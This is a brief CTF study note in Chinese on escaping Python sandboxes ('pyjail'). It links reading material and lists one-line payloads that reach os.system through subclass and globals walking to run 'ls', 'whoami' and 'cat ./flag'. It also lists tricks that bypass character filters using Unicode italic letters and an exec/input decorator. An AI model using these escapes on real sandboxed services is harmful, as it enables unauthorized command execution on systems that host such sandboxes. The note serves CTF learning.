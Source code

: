```yaml
---
tags:
- notes
- ctf
comments: true
---
```


> [!PREREQUISITE]
>
> 准备练练 python jail ，准备资料如下：
>
> - [Tr0y's Blog](https://www.tr0y.wang/)
>     - [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/)
>     - [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
>     - [Unicode 的使用](https://www.tr0y.wang/2020/08/18/IDN/#%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF)
> - [nssctf](https://www.nssctf.cn/problem) (搜 jail 即可)
>     - [一个简单的题解](https://www.aiwin.fun/index.php/archives/3992/)
> - [github-autojail](https://github.com/martcl/autojail)
> - [moectf2024 题目链接](https://ctf.xidian.edu.cn/games/10/challenges?challenge=95)

- [Moejail](../../MOECTF2024/MISC.md#Moejail)

-  `__import__('os').system('ls')`
- `[i.__init__.__globals__['linecache'].__dict__['os'].system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "catch_warnings"]`
- `[i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cat ./flag')`
- 限制 A-z0-9 => https://lingojam.com/ItalicTextGenerator
- 限制 `'"{}[]()_` => ` @exec\n@input\nclass\tx:\n\tpass`

```python
@exec
@input
class x:
    pass

exec("@exec\n@input\nclass\tx:\n\tpass")
# exec("@𝘦𝘹𝘦𝘤\n@𝘪𝘯𝘱𝘶𝘵\n𝘤𝘭𝘢𝘴𝘴\t𝘹:\n\t𝘱𝘢𝘴𝘴")
```